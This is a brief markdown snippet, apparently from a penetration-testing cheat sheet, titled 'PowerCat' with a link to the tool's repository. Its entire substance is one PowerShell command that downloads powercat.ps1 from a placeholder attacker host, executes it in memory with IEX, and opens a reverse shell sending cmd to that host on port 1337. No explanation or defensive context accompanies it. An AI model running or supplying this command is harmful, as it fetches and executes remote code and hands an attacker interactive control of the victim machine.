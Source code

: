 # PowerCat

[PowerCat]('https://github.com/besimorhino/powercat.git')
```
powershell -c "IEX(New-Object System.Net.WebClient).DownloadString('http://ATTACKBOX_IP:8080/powercat.ps1');powercat -c ATTACKBOX_IP -p 1337 -e cmd"
```